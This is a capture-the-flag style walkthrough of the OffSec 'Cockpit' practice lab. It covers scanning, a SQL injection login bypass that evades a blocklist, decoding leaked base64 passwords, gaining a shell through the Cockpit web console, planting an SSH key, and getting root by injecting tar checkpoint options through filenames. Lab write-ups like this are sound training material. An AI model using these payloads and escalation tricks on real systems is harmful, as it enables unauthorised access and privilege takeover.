






# Cockpit

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 20
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting a SQL Injection (SQLi) vulnerability in a login page to extract credentials 
and gain access via SSH. Privilege escalation is achieved by abusing a wildcard bug in a custom SUID binary 
(AuthChecker), allowing learners to manipulate the cp command to preserve permissions and create a root-owned 
SUID binary. This lab emphasizes SQLi exploitation, binary analysis, and wildcard-based privilege escalation 
for root access.
Released: 6 Apr 2023
```

Machine link: [https://portal.offsec.com/machine/cockpit-49474/overview/details](https://portal.offsec.com/machine/cockpit-49474/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ export TARGET_IP=192.168.231.10 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-07 13:57 +0200
Nmap scan report for 192.168.231.10
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
9090/tcp open  http    Cockpit web service 198 - 220
|_http-title: Did not follow redirect to https://192.168.231.10:9090/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.12 seconds

```

We have three TCP-services running and available:

- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 on port 22
- Apache httpd 2.4.41 on port 80
- Cockpit web service 198 - 220 on port 9090

We also do an UDP-scan of the top 100 ports but find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-07 14:00 +0200
Nmap scan report for 192.168.231.10
Host is up (0.035s latency).
All 100 scanned ports on 192.168.231.10 are in ignored states.
Not shown: 58 closed udp ports (port-unreach), 42 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 284.31 seconds
```

### Check the web site

Manually browsing to the website on port 80 we find this web page


Checking port 9090 we find a login page



Logins with standard credentials such as `admin:admin` and `admin:password` are unsuccessful.

A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ whatweb -a3 http://$TARGET_IP     
http://192.168.231.10 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.231.10], Title[blaze]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ whatweb -a3 http://$TARGET_IP:9090
http://192.168.231.10:9090 [301 Moved Permanently] Country[RESERVED][ZZ], IP[192.168.231.10], RedirectLocation[https://192.168.231.10:9090/], Title[Moved], UncommonHeaders[x-dns-prefetch-control,referrer-policy,x-content-type-options]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ whatweb -a3 --follow-redirect=always http://$TARGET_IP:9090
http://192.168.231.10:9090 [301 Moved Permanently] Country[RESERVED][ZZ], IP[192.168.231.10], RedirectLocation[https://192.168.231.10:9090/], Title[Moved], UncommonHeaders[x-dns-prefetch-control,referrer-policy,x-content-type-options]
https://192.168.231.10:9090/ [200 OK] Cookies[cockpit], Country[RESERVED][ZZ], HTML5, HttpOnly[cockpit], IP[192.168.231.10], PasswordField, Script, Title[Loading...], UncommonHeaders[content-security-policy,x-dns-prefetch-control,referrer-policy,x-content-type-options]
```

Next, we scan for interresting files and directories with `gobuster`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.231.10
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 3349]
/img                  (Status: 200) [Size: 935]
/login.php            (Status: 200) [Size: 769]
/.html                (Status: 403) [Size: 279]
/css                  (Status: 200) [Size: 1323]
/js                   (Status: 200) [Size: 932]
/logout.php           (Status: 200) [Size: 769]
/blocked.html         (Status: 200) [Size: 233]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

On `http://192.168.231.10/login.php` we find another login portal



Again, logins with standard credentials are unsuccessful.

Trying to login with:

- Username: `'`
- Password: `test`

returns this error message:

```text
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' AND password like '%test%'' at line 1
```

Looks like SQLi to the MySQL database might be possible.

### Login with SQLi

Trying to login with:

- Username: `cajac' OR 1=1 -- //`
- Password: `test`

returns this warning message:

`You have been blocked due to an illegal activity and this incident will be reported.`

There is some kind of blocklist we have triggered.

After some trial-and-error a login with:

- Username: `'OR ''='`
- Password: `<blank>`

is successful!



We have the following credentials:

|Username|Password|
|----|----|
|james|Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=|
|cameron|dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy|

The passwords looks base64-encoded. We can decode the like this

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ echo 'Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=' | base64 -d
canttouchhhthiss@455152  
```

We get the following:

|Username|Password (base64)|Password (clear)|
|----|----|----|
|james|Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=|canttouchhhthiss@455152|
|cameron|dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy|thisscanttbetouchedd@455152|

### Try to login with SSH

Let's check if we can use these credentials to login with SSH

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ ssh james@$TARGET_IP                            
The authenticity of host '192.168.231.10 (192.168.231.10)' can't be established.
ED25519 key fingerprint is SHA256:VnMMoSlX8Y0MsU947B2bAEqDX+KmnqpFLFXtLgsOERw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.231.10' (ED25519) to the list of known hosts.
james@192.168.231.10: Permission denied (publickey).

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ ssh cameron@$TARGET_IP
cameron@192.168.231.10: Permission denied (publickey).

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ 
```

Nope, no luck!

### Login via port 9090

But what about the login portal at `https://192.168.231.10:9090/`?

We are successful with logging in as `james`



Under `Accounts` and `James` we have the possibility to add public SSH keys



And under `Terminal` we have a shell



### Get the user flag

We ought to be able to get the user flag from this terminal session

```bash
james@blaze:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@blaze:~$ pwd
/home/james
james@blaze:~$ ls -l
total 4
-rwx------ 1 james james 33 Apr  7 11:56 local.txt
james@blaze:~$ cat local.txt 
4<REDACTED>8
james@blaze:~$ 
```

### Get access with SSH

Before moving on let's enable SSH access.

First we create a new key pair

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ ssh-keygen -f james
Generating public/private ed25519 key pair.
Enter passphrase for "james" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in james
Your public key has been saved in james.pub
The key fingerprint is:
SHA256:PklT9JpukcfDBmgvMIZO/TtOitaP0JXLK94rPG7YPRI kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|          .      |
|     o   o .     |
|    o = o o .    |
|   o . = + B     |
|    .   S * *    |
|     .E= B + .   |
|    .=.oX o      |
|    ooX*o=       |
|   ..+=**o       |
+----[SHA256]-----+

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ ls -l james*
-rwxrwxrwx 1 root root 399 Apr  7 14:58 james
-rwxrwxrwx 1 root root  91 Apr  7 14:58 james.pub
```

Then we add the public key via the web page we found earlier

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ cat james.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJbXq7Cv8q9oeF52+iMPAdPnSzZij4h8Tcf5UtcO5eR kali@kali
```

After that, let's try to login again

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Cockpit]
└─$ ssh -i james james@$TARGET_IP   
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-146-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 07 Apr 2026 01:03:00 PM UTC

  System load:  0.0               Processes:               249
  Usage of /:   59.6% of 9.75GB   Users logged in:         1
  Memory usage: 45%               IPv4 address for ens160: 192.168.231.10
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

73 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


*** System restart required ***

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Web console: https://blaze.offsec:9090/

james@blaze:~$ 
```

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

First we check what we can run with `sudo`

```bash
james@blaze:~$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
james@blaze:~$ 
```

Ah, a `tar` wildcard opportunity!

We need to create two new files inspired by [GTFOBins](https://gtfobins.org/gtfobins/tar/#shell)

```bash
james@blaze:~$ touch /home/james/--checkpoint=1
james@blaze:~$ touch /home/james/--checkpoint-action=exec=bash
james@blaze:~$ ls -l
total 4
-rw-rw-r-- 1 james james  0 Apr  7 13:11 '--checkpoint=1'
-rw-rw-r-- 1 james james  0 Apr  7 13:11 '--checkpoint-action=exec=bash'
-rwx------ 1 james james 33 Apr  7 11:56  local.txt
james@blaze:~$ 
```

### Get a root shell

Now we just have to trigger `tar` with `sudo`

```bash
james@blaze:~$ sudo tar -czvf /tmp/backup.tar.gz *
tar (child): /tmp/backup.tar.gz: Cannot open: Permission denied
tar (child): local.txt
Error is not recoverable: exiting now
root@blaze:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@blaze:/home/james# 
```

### Get the root flag

Finally, we can get the root flag

```bash
root@blaze:/home/james# cd /root
root@blaze:~# ls -l
total 12
-rw------- 1 root root   13 Apr  3  2023 flag2.txt
-rwx------ 1 root root   33 Apr  7 11:56 proof.txt
drwx------ 3 root root 4096 Jan 24  2023 snap
root@blaze:~# cat proof.txt 
c<REDACTED>8
root@blaze:~# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [base64 - Linux manual page](https://man7.org/linux/man-pages/man1/base64.1.html)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [GTFOBins - tar](https://gtfobins.org/gtfobins/tar/)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [ssh-keygen - Linux manual page](https://man7.org/linux/man-pages/man1/ssh-keygen.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tar - Linux manual page](https://man7.org/linux/man-pages/man1/tar.1.html)
- [touch - Linux manual page](https://man7.org/linux/man-pages/man1/touch.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
